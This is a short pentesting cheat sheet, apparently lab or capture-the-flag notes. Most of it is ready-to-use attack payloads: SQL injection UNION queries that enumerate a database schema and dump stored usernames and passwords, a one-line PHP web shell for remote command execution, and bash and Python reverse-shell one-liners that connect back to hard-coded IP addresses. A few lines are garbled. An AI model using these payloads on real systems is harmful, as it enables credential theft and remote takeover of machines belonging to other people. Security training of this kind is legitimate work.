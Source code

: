```
	1' UNION ALL SELECT concat(TABLE_NAME),2,3,4,5,6 FROM information_schema.TABLES WHERE table_schema='Staff' -- -
		the above query throws up table names in that database

	1' UNION ALL SELECT concat(COLUMN_NAME),2,3,4,5,6 FROM information_schema.COLUMNS WHERE table_name='StaffDetails' -- -
		this throws up the column names by fetching it from information schema database

now we have all the essential information about the database and the table layout
time to dump tables

	1' UNION ALL SELECT group_concat(Username," : ",Password),2,3,4,5,6 FROM users.UserDetails -- -
		this dumps the table




```


##### sometimes ports are locked and we need to perform port knocking by nc
```
config file present at
	/etc/knockd.conf
consists of ports required to knock
```

### Web enumeration
- we can use gobuster as usual but if we are lost or we need more aggressive enumeration, wfuzz is the way to go

### Php shellcode for RCE
```
	after knowing the vulnerable file, if it is vulnerable, inject this and use it for payload

		<?php echo shell_exec($_GET['cmd']); ?>

	if situation for LFI try to get the credentials file
	ls ls

```

## Reverse shell payloads
```
bash (works in all cases)
		bash -i >& /dev/tcp/10.10.10.3/1234 0>&1


python
		python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.56.107",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'

```
